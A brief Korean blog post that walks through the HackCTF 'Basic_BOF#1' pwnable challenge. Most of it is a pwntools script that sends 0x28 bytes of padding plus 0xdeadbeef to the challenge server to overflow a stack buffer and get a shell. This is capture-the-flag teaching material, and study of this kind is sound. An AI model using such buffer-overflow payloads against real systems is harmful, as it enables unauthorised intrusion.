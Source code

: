 ```yaml
---
title: "[HackCTF] Basic_BOF#1"
date: 2020-06-29
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


<span class="color-blue">HackCTF</span>의 첫 번째 <span class="color-blue">Pwnable</span> 문제로 <span class="color-blue">bof</span>를 이용한다.
{% highlight python %}
from pwn import *
 
p = remote("ctf.j0n9hyun.xyz", 3000)
 
p.sendline("0"*0x28+p32(0xdeadbeef))
p.interactive()
{% endhighlight %}
